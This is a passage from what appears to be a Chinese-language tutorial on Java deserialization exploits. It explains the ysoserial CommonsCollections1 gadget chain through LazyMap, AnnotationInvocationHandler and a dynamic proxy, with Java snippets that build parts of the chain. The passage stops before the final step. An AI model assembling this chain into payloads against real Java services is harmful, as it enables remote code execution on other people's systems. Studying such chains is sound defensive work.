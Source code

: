 ```java
        LinkedHashMap var7 = new LinkedHashMap(); //这里new一个map,不在使用我们构造的map 导致漏洞不存在

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Entry var9 = (Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    //zheli 
                    var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
                }
            }
        }

        AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
        AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
    }
```

### LazyMap调用链 ysoserial-CommonsCollections1 

Lazy触发点和TransformedMap不同，TransformedMap触发转换是在设置值时，而LazyMap是在get操作时没有找到对应的值时会调用transform返回一个转换后的对象，后半段执行命令的利用链和上面的一致，不同的是触发方式,创建一个lazyMap：

```java
Map lm = LazyMap.decorate(innerMap,chainedTransformer);
```

AnnotationInvocationHandler类的readObject()没有调用LazyMap的get方法，但是在invoke中有调用，invoke会在代理对象被访问时调用

AnnotationInvocationHandler实现了InvocationHandler接口，可以作为代理对象的handler，创建一个代理对象

```java
Class ann_clazz = Class.forName(ANN_INV_HANDLER_CLASS);
    Constructor constructor = ann_clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler ih = (InvocationHandler) constructor.newInstance(Target.class, lm);

    Map proxymap = (Map) Proxy.newProxyInstance(lm.getClass().getClassLoader(),new Class[]{Map.class},ih);
```

- 通过`chainedTransformer`构造的LazyMap创建`AnnotationInvocationHandler`实例
- 并且需要调用`AnnotationInvocationHandler`#invoke方法触发命令执行
- 通过刚才创建的`AnnotationInvocationHandler`实例创建map.class(可以是任意对象)的代理对象proxyMap,当调用proxyMap任意方法时触发`AnnotationInvocationHandler`#invoke()->触发lazuMap#get()->命令执行
- 如果序列化这个proxyMap对象,反序列化时调用Map#readObkect(),无法触发invoke()

所以需要用AnnotationInvocationHandler包裹，将这个map作为AnnotationInvocationHandler的memberValue参数：
